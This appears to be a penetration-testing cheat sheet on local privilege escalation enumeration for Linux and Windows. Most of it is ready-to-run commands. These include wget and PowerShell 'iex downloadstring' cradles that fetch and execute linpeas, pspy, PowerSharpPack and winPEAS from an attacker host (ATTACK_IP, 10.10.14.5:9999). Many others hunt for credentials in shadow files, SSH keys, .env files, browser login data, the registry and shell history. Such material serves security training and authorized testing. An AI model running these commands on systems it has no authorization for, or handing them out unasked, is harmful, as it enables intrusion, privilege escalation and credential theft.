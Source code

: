 # Local Privilege Escalation LPE Enumeration Methodology

### 1) Linux Local Privilege Escalation LPE Enumeration

On a linux machine, we can do some checks to see if we can exploit them to do lateral movement, or even root the machine.

#### Checks:

1) Sudo privileges (Authenticated)

       sudo -l

2) SUID bit files

        find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null	

3) Open ports/services/applications within the machine

        ss -tulpn
        netstat -ano

4) Check for running processes either as root, or as another target user for lateral movement

        wget http://ATTACK_IP:PORT/pspy64

        chmod +x ./pspy64

        ./pspy64

5) Check detailed contents of a directory like hidden files, file size, ownership

        ls -lah

6) Automated Enumeration

        wget http://ATTACK_IP:PORT/linpeas.sh

        chmod +x ./linpeas.sh

        ./linpeas.sh

7) Interesting groups of the current user

        id

8) Environment Variables

        env

9) Command history

        history

        cat /home/user/.bash_history

11) Writeable files and directories of the current user

        find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

12) Chech the current user's PATH variable contents

        echo $PATH

13) World-writeable files and directories

        find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
        find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

14) Search for passwords within a linux system

Common password files

        find / -type f \( -iname "*passwd*" -o -iname "*shadow*" -o -iname "*secret*" \) 2>/dev/null

Password in config files

       grep -r --color=auto -i "password" /etc 2>/dev/null

Sensitive keywords on files

       grep -r --color=auto -iE "(password|pass|secret|key|token)" /home /var /etc 2>/dev/null

SSH Keys

       find / -type f -name "id_rsa" -o -name "id_dsa" 2>/dev/null

Bash History

       cat ~/.bash_history | grep -iE "password|pass|secret|key|token"

Hardcoded credentials in code

       grep -r --color=auto -iE "(password|key|secret|credential)" /var/www /home

Database files

       find / -type f -iname "*.sql" -o -iname "*.db" -o -iname "*.sqlite" 2>/dev/null

Environment Variables

       find / -type f -iname ".env" 2>/dev/null
       grep -i "password" $(find / -type f -iname ".env" 2>/dev/null)

### 2) Windows Local Privilege Escalation LPE Enumeration

On Windows machines, we can conduct some checks to find interesting info for LPE

1) Windows Privileges

Check our current user what privileges does he have

       whoami /priv

More details about the user

       whoami /all

2) Open ports/services that we can use

       netstat -ano

3) Search for passwords within a Windows system

Search for passwords in files

       Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password" -SimpleMatch

Sensitive Keywords in documents

       Get-ChildItem -Path C:\ -Include *.txt,*.doc,*.docx,*.xls,*.xlsx -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password|secret|key|token"
       findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml	

Config files containing credentials

       Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password" -Include *.config,*.xml

Browser Password Files

       Get-ChildItem -Path "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data" -ErrorAction SilentlyContinue

Windows Registry

       reg query HKCU /f "password" /t REG_SZ /s
       reg query HKLM /f "password" /t REG_SZ /s

User Profiles

       Get-ChildItem -Path C:\Users\ -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password|pass|key|secret"

Encrypted Vaults

       Get-ChildItem -Path C:\ -Include *.pfx,*.key,*.crt,*.pem -Recurse -ErrorAction SilentlyContinue

System Logs

       Get-Content C:\Windows\System32\LogFiles -ErrorAction SilentlyContinue | Select-String -Pattern "password|key|secret"

3) Automation

Tools: PowerSharpPack, WinPEAS, Invoke-winPEAS

       iex(new-object net.webclient).downloadstring('http://ATTACK_IP:PORT/PowerSharpPack.ps1')

       PowerSharpPack -winPEAS

OR 

       iex(new-object net.webclient).downloadstring('http://10.10.14.5:9999/Invoke-winPEAS.ps1')

       Invoke-winPEAS >> .out

4) Unquoted Services Paths

       cmd /c wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\" | findstr /i /v """

5) AlwaysInstallElevated registry key

       reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
       reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

6) Scheduled Tasks

       schtasks /query /fo LIST /v
       Get-ScheduledTask | select TaskName,State

7) User Enumeration

       net users
       Get-LocalUser

8) Windows version

       systeminfo

9) Powershell History

Confirm powershell history save path

       (Get-PSReadLineOption).HistorySavePath	

Read powershell history file

       gc (Get-PSReadLineOption).HistorySavePath	

Tools: SessionGopher, LaZagne https://github.com/Arvanaghi/SessionGopher
